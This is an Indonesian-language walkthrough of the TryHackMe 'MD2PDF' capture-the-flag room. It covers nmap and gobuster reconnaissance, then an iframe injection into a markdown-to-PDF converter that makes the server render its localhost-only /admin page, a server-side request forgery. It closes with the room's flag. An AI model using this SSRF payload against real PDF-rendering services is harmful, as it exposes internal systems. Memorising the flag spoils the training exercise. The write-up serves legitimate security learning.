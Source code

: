 # MD2PDF
- TryHackMe Challenge: https://tryhackme.com/room/md2pdf
- IP Machine: 10.10.187.198

## Task 1 Challenge
- Scanning port menggunakan nmap
```sh
nmap -sC <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%201.JPG)

- Port 80 (http) terbuka, sekarang kita coba akses halaman web lewat browser dengan url `http://<IP_Machine>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%202.JPG)


- MD2PDF adalah singkatan dari [Markdown2PDF](https://github.com/realdennis/md2pdf). Halaman tersebut berfungsi mengubah markup HTML ke format PDF. Hal ini berpotensi untuk melakukan serangan XSS dan SSRF (Server Side Request Forgery).
- Sekarang kita coba temukan halaman tersembunyi dengan tool gobuster
```sh
gobuster dir -u http://<IP_Machine> -w /usr/share/wordlists/dirb/common.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%203.JPG)

- Ditemukan halaman **/admin** dari report gobuster. Sekarang kita buka halaman tersebut di browser dengan url `http://<IP_Machine>/admin`. Ternyata halaman tersebut hanya bisa diakses secara internal lewat localhost dan port 5000

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%204.JPG)

- Sekarang kita injekkan iframe ke markup PDF untuk menampilkan isi halaman **/admin**
```sh
<iframe src="http://localhost:5000/admin" height="1000" width="1000">
</iframe>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%205.JPG)

- Tekan tombol Convert to PDF

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/MD2PDF/assets/md%206.JPG)

**Pertanyaan:** What is the flag?

**Jawaban:**
```sh
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```